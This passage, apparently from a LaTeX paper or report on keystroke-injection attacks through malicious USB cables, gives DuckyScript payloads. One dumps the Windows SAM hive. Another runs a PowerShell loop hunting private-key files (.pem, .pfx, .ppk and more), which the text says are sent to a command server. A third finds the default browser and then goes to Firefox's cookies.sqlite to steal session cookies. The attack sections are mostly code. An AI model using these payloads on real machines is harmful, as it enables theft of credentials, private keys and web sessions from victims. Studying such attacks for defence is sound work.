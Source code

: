  \begin{lstlisting} 
 STRINGLN reg save HKLM\SAM C:\sam.hiv
 \end{lstlisting}

\subsubsection{Extract Private Key Files}

File extensions can be searched with the help of Powershell. For that reason, this extraction payload will run a simple loop on a predefined (default) path to a directory that is expected to contain private key files and send the discovered files to a command server. 

\begin{lstlisting}
DUCKY_LANG DE_CH
DELAY 50
GUI r
DELAY 200
STRINGLN powershell.exe
DELAY 2500
STRINGLN $entryPoint = "your/path"
DELAY 200
STRINGLN $extensions = @(".key", ".pgp", ".gpg", ".ppk", ".p12", ".pem", ".pfx", ".cer", ".p7b", ".asc")
DELAY 200
STRINGLN Get-ChildItem -Path $entryPoint -Recurse | ForEach-Object {
DELAY 200
STRINGLN     if ($_.PSIsContainer) {
DELAY 200
STRINGLN         return
DELAY 200
STRINGLN     }
DELAY 200
DELAY 200
STRINGLN     if ($extensions -contains $_.Extension) {
DELAY 200
STRINGLN         Write-Host "File found: $($_.FullName)"
DELAY 200
STRINGLN     }
DELAY 200
STRINGLN }
DELAY 50
ENTER
DELAY 200
STRINGLN exit
\end{lstlisting}


\subsubsection{Steal Web Session Cookies}

A client's default browser can be extracted via Powershell using only one line:
\begin{lstlisting}
STRINGLN Get-ItemProperty -Path 'HKCU: Software\Microsoft\Windows\Shell\Associations\UrlAssociations\http\UserChoice' | Select-Object -ExpandProperty ProgId
\end{lstlisting}

After that information is sent back to the attacker, they can connect to the cable and remotely trigger the appropriate attack. For example, if the victim's default browser is firefox, they could start a terminal, navigate to the default directory for firefox cookies and extract that file.

\begin{lstlisting}
STRINGLN cd "C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\umva4gfp.default-release\cookies.sqlite"
\end{lstlisting}

